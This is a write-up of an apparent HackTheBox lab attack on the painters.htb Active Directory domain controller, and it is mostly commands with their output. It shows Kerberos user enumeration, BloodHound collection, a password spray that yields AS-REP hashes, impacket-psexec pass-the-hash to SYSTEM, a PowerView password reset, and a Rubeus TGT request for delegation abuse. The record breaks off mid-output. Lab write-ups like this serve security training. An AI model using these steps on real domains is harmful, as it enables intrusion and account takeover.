






If we run a TCP type scan via NMAP we can see that this is the first DC in the printer.htb realm:

```
riley@mail:/tmp$ ./nmap -Pn 192.168.110.55

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-08 13:57 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 8.54% done; ETC: 13:58 (0:00:21 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 51.82% done; ETC: 13:58 (0:00:03 remaining)
Nmap scan report for 192.168.110.55
Host is up (0.00076s latency).
Not shown: 1172 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos
135/tcp   open  epmap
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd
593/tcp   open  unknown
636/tcp   open  ldaps
10050/tcp open  zabbix-agent

Nmap done: 1 IP address (1 host up) scanned in 5.33 seconds
```

We can also see that Zabbix is active on the machine and it can be used maybe for future use somehow.

I will start firstly by checking for available usernames on the DC, I know from some usernames that we have only names as account so I will start from there: https://github.com/insidetrust/statistically-likely-usernames

```
msf6 auxiliary(gather/kerberos_enumusers) > run

[*] Using domain: PAINTERS.HTB - 192.168.110.55:88    ...
[+] 192.168.110.55 - User: "daniel" is present
[+] 192.168.110.55 - User: "matt" is present
[+] 192.168.110.55 - User: "tom" is present
[+] 192.168.110.55 - User: "gavin" is present
[*] Auxiliary module execution completed
msf6 auxiliary(gather/kerberos_enumusers) >
```

We can add those usernames to our username file for future use.

I succeded to dump the list of Sharphound user remotely by matching the right domain+NS+FDQN of DC:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# proxychains bloodhound-python -u riley -p P@ssw0rd -d painters.htb -ns 192.168.110.55 -dc DC.painters.htb --zip --dns-tcp
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:53  ...  OK
INFO: Found AD domain: painters.htb
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:53  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:53  ...  OK
INFO: Getting TGT for user
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  painters.htb:88 <--socket error or timeout!
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (painters.htb:88)] [Errno 111] Connection refused
INFO: Connecting to LDAP server: DC.painters.htb
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:53  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:389  ...  OK
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 6 computers
INFO: Found 11 users
INFO: Connecting to LDAP server: DC.painters.htb
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:389  ...  OK
INFO: Found 52 groups
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WORKSTATION-1.painters.htb
[proxychains] Strict chain  ...  127.0.0.1:1080 INFO: Querying computer: Maintenance.painters.htb
 ...  192.168.110.55:53 INFO: Querying computer: PNT-SVRPSB.painters.htb
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:53 INFO: Querying computer: PNT-SVRBPA.painters.htb
INFO: Querying computer: PNT-SVRSVC.painters.htb
[proxychains] Strict chain  ...  127.0.0.1:1080 INFO: Querying computer: DC.painters.htb
 ...  192.168.110.55:53 [proxychains] Strict chain  ...  127.0.0.1:1080 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  192.168.110.55:53 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:53  ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.10:445 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.54:445 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
 ...  OK
 ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
 ...  OK
<--socket error or timeout!
<--socket error or timeout!
<--socket error or timeout!
INFO: Done in 00M 09S
INFO: Compressing output into 20230908215138_bloodhound.zip
```

* * *

## SMB:

if we run a Enum4linux-ng we can see that this is indeed identified as the DC of the .110 subnet:

```
──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# proxychains enum4linux-ng -A 192.168.110.55                      
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.110.55
[*] Username ......... ''
[*] Random Username .. 'eeewawes'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 192.168.110.55    |
 =======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:389  ...  OK
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:636  ...  OK
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:139  ...  OK
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 192.168.110.55    |
 ======================================================
[*] Trying LDAP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:389  ...  OK
[+] Appears to be root/parent DC
[+] Long domain name is: painters.htb

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.110.55    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 192.168.110.55    |
 ===========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

 =============================================================
|    Domain Information via SMB session for 192.168.110.55    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: DC
NetBIOS domain name: PAINTERS
DNS domain: painters.htb
FQDN: DC.painters.htb
Derived membership: domain member
Derived domain: PAINTERS

 ===========================================
|    RPC Session Check on 192.168.110.55    |
 ===========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 =====================================================
|    Domain Information via RPC for 192.168.110.55    |
 =====================================================
[+] Domain: PAINTERS
[+] Domain SID: S-1-5-21-1470357062-2280927533-300823338
[+] Membership: domain member

 =================================================
|    OS Information via RPC for 192.168.110.55    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: ''
OS build: '20348'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

 =======================================
|    Users via RPC on 192.168.110.55    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ========================================
|    Groups via RPC on 192.168.110.55    |
 ========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ========================================
|    Shares via RPC on 192.168.110.55    |
 ========================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ===========================================
|    Policies via RPC for 192.168.110.55    |
 ===========================================
[*] Trying port 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:445  ...  OK
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:139  ...  OK
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    Printers via RPC for 192.168.110.55    |
 ===========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 27.48 seconds
```

We can't do that much here on SMB share front.  We could try to password spray over the users we already have so far but it's not helping much:

```
msf6 auxiliary(scanner/kerberos/kerberos_login) > run

[*] Using domain: PAINTERS.HTB - 192.168.110.55:88    ...

[+] 192.168.110.55 - User: "matt" is present
[!] No active DB -- Credential data will not be saved!
[+] 192.168.110.55 - User: "gavin" is present
[+] 192.168.110.55 - User: "web_svc" is present
[+] 192.168.110.55 - User: "tom" is present
[+] 192.168.110.55 - User: "daniel" is present
[*] 192.168.110.55 - User: "gavin" wrong password P@ssw0rd
[+] 192.168.110.55 - User found: "blake" with password P@ssw0rd. Hash: $krb5asrep$18$blake@PAINTERS.HTB:0a6b82645e289d747658c156904224cd$b24fc524780f0c796c9a0c48e6ad8040fda514175da1837cb25cf440b3d6cf832ae1ddb92bdc18bd468da29a0c951e8bde9e20621baa2fceaa28c5634bffbdccda024fa06c79a9357f06cdb2eb1293f6747af5e75fc4128478c9350776d2f6dcd1938bf3078aa9276972df29cf465859ac05b15dff4e89d9b2f83e57b8963c906d6f52f531ca95572efc152e47631a98f067d56c748f01f09d7cf33a6b0ce9219bedbc9ba871275bbe14462f7e3d42c1a348cc41a0681ed1d5c5bda5dff288f16786795183a83f87721fb97417bc95ac60ef3aefe1cd3c1ccee33e50ecb57170e18a71412d82f0d355b2019d05eded6dbae5b7f60f63ffdbe7f1e1f105aa2f
[+] 192.168.110.55 - User found: "riley" with password P@ssw0rd. Hash: $krb5asrep$18$riley@PAINTERS.HTB:652654f92b8da6b94256ab399637101c$d9bdba8cecdb200760b113f7bf599c19f435188f9d444022ba40c8121abfe290de76e141c0a2c4aadc4a5bfa882c9074356f72cc92fc8198cd8d3fac29de4a1a0550d0bb515c1918b7e4322c0d778fb42c9544fc3ff63b00d46f329825a594cfbcd5be2d6c93f2af7cb373b7b85f1d6f74124157fa78996e89e9e3d64a3cc29c442d04e736ea6b3874bdd3852a666778215a98d98b8872b7b2c7e9f5394e7ec61f6d431eaf99f544288e018e6c3ad5a9581eaf44dcce937de94356ea60b0c9ce37e2bfc3cc83b40d4dfc9aaa166748386fa2c3d5eb8e31fe0fa863fe3106d698b33999faa8203613252c82c0de3cc6381b00bf7746a19e0924447a072fb284
[*] 192.168.110.55 - User: "james" user not found
[*] Auxiliary module execution completed
```

&nbsp;

* * *

## AD Analysys:

From a inital analysys I don't see anything strange here:



And checking the users we can see these:



So far I don't see anything strange or users with eccesive accesses so we need to stop for now here and eventually come back later!

* * *

## Back on Track:

So here what I found strange was that many of the hash I found during this enumeration(James,web\_SVC,blake) were missing from the graph and knowning that I used Bloodhound python might be that some of the data is missing out. I will re -run the tool but this time locally:

```
*Evil-WinRM* PS C:\Temp> ./Sharphound.exe --ldapusername riley --ldappassword P@ssw0rd
2023-09-11T10:02:48.6590277+01:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-09-11T10:02:49.0652715+01:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-09-11T10:02:49.2215271+01:00|INFORMATION|Initializing SharpHound at 10:02 on 11/09/2023
2023-09-11T10:02:49.4402674+01:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for painters.htb : DC.painters.htb
2023-09-11T10:02:49.5965710+01:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-09-11T10:02:49.8777661+01:00|INFORMATION|Beginning LDAP search for Sharphound.EnumerationDomain
2023-09-11T10:02:49.8777661+01:00|INFORMATION|Testing ldap connection to painters.htb
2023-09-11T10:02:49.9246387+01:00|INFORMATION|Producer has finished, closing LDAP channel
2023-09-11T10:02:49.9246387+01:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-09-11T10:03:20.8309230+01:00|INFORMATION|Status: 1 objects finished (+1 0.03333334)/s -- Using 37 MB RAM
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:5985  ...  OK
2023-09-11T10:03:37.8465175+01:00|INFORMATION|Consumers finished, closing output channel
2023-09-11T10:03:37.8777763+01:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-09-11T10:03:38.0183979+01:00|INFORMATION|Status: 103 objects finished (+102 2.145833)/s -- Using 45 MB RAM
2023-09-11T10:03:38.0183979+01:00|INFORMATION|Enumeration finished in 00:00:48.1450942
2023-09-11T10:03:38.1746441+01:00|INFORMATION|Saving cache with stats: 62 ID to type mappings.
 63 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-09-11T10:03:38.1902701+01:00|INFORMATION|SharpHound Enumeration Completed at 10:03 on 11/09/2023! Happy Graphing!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:5985  ...  OK
```

And now uploading the new data we can see that our user we have Blake have some special:



And more specifically this part:



We can see that server .53 can change Blake password, then Blake can delegate over dc.

What I was missing was that we needed NT System permission on order to use net user as it uses UAC as block.

The solution is to SMBEXEC or WMIEXEC instead as it invokes a shell as NT SYSTEM instead:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains impacket-psexec James@192.168.110.53 -hashes :8af1903d3c80d3552a84b6ba296db2ea
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.1.dev1+20230728.114623.fb147c3f - Copyright 2022 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[*] Requesting shares on 192.168.110.53.....
[*] Found writable share ADMIN$
[*] Uploading file SKbyxmiN.exe
[*] Opening SVCManager on 192.168.110.53.....
[*] Creating service ryyV on 192.168.110.53.....
[*] Starting service ryyV.....
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[!] Press help for extra shell commands
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
Microsoft Windows [Version 10.0.20348.1726]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

First i need to find the username SID:

```
logoncount                    : 5
badpasswordtime               : 11/09/2023 11:51:23
distinguishedname             : CN=Blake Morris,CN=Users,DC=painters,DC=htb
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : Blake Morris
lastlogontimestamp            : 11/09/2023 06:46:29
name                          : Blake Morris
objectsid                     : S-1-5-21-1470357062-2280927533-300823338-1107
samaccountname                : blake
logonhours                    : {255, 255, 255, 255...}
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : 01/01/1601 00:00:00
cn                            : Blake Morris
whenchanged                   : 11/09/2023 12:43:40
instancetype                  : 4
usncreated                    : 12953
objectguid                    : 43a033b8-8939-473a-8ff0-22f1e3fb37a1
sn                            : Morris
lastlogoff                    : 01/01/1601 00:00:00
msds-allowedtodelegateto      : {CIFS/dc.painters.htb, CIFS/DC}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=painters,DC=htb
dscorepropagationdata         : {19/10/2022 05:27:21, 01/01/1601 00:00:00}
serviceprincipalname          : HTTP/dc.painters.htb
givenname                     : Blake
lastlogon                     : 11/09/2023 13:43:56
badpwdcount                   : 0
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 06/03/2022 18:49:37
countrycode                   : 0
primarygroupid                : 513
pwdlastset                    : 11/09/2023 13:43:40
msds-supportedencryptiontypes : 0
usnchanged                    : 344500
```

Next we can reset it's password:

```
PS C:\temp> $blake = ConvertTo-SecureString 'Coglione1!' -AsPlainText -Force
$blake = ConvertTo-SecureString 'Coglione1!' -AsPlainText -Force
PS C:\temp>

PS C:\temp> Set-DomainUserPassword -identity "S-1-5-21-1470357062-2280927533-300823338-1107" -accountpassword $blake
Set-DomainUserPassword -identity "S-1-5-21-1470357062-2280927533-300823338-1107" -accountpassword $blake
PS C:\temp>
```

Now that we have it's password we can perform a RBCD attack and will follow this guide: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation

We can see that BLAKE have CIFS(aka FileSystem access) over DC server:

```
PS C:\temp> Get-NetUser -TrustedToAuth
Get-NetUser -TrustedToAuth


logoncount                    : 5
badpasswordtime               : 11/09/2023 11:51:23
distinguishedname             : CN=Blake Morris,CN=Users,DC=painters,DC=htb
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : Blake Morris
lastlogontimestamp            : 11/09/2023 06:46:29
name                          : Blake Morris
objectsid                     : S-1-5-21-1470357062-2280927533-300823338-1107
samaccountname                : blake
logonhours                    : {255, 255, 255, 255...}
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : 01/01/1601 00:00:00
cn                            : Blake Morris
whenchanged                   : 11/09/2023 13:48:12
instancetype                  : 4
usncreated                    : 12953
objectguid                    : 43a033b8-8939-473a-8ff0-22f1e3fb37a1
sn                            : Morris
lastlogoff                    : 01/01/1601 00:00:00
msds-allowedtodelegateto      : {CIFS/dc.painters.htb, CIFS/DC}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=painters,DC=htb
dscorepropagationdata         : {19/10/2022 05:27:21, 01/01/1601 00:00:00}
serviceprincipalname          : HTTP/dc.painters.htb
givenname                     : Blake
lastlogon                     : 11/09/2023 13:43:56
badpwdcount                   : 0
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 06/03/2022 18:49:37
countrycode                   : 0
primarygroupid                : 513
pwdlastset                    : 11/09/2023 14:48:12
msds-supportedencryptiontypes : 0
usnchanged                    : 344540
```

Next we have to ask for a TGT for Blake user:

```
PS C:\temp> ./Rubeus.exe asktgt /user:blake /password:Coglione1! /ptt /nowrap
./Rubeus.exe asktgt /user:blake /password:Coglione1! /ptt /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 71DDAFA4193CAA4376AAE61BCFEAF9D5
[*] Building AS-REQ (w/ preauth) for: 'painters.htb\blake'
[*] Using domain controller: 192.168.110.55:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

